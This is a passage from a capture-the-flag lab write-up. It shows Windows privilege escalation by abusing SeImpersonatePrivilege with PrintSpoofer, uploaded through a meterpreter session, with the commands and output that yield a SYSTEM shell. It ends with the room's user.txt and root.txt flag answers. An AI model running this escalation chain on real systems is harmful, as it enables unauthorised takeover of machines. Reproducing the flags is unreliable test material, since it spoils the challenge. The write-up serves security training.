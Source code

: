### Exploiting

Let's look closer at **SeImpersonatePrivilege**


On [hacktricks.xyz](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#seimpersonateprivilege-3.1.1) we can learn that we are able to abuse this privelege and get SYSTEM permissions.


Download [Print spoofer](https://github.com/itm4n/PrintSpoofer) and upload it to target machine.



```bash
meterpreter > upload PrintSpoofer32.exe
meterpreter > shell
C:\Users\All Users>PrintSpoofer32.exe -i -c cmd


[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```


We've got elevated privelleges!

Now we can lurk for user.txt and root.txt file. After some looking we find out that these files are in Wade's and Administrator's desktops. Contents of these files are our flags.

## Question 2
> **user.txt**
> **3b99fbdc6d430bfb51c72c651a261927**

## Question 3
> **root.txt**
> **7958b569565d7bd88d10c6f22d1c4063**
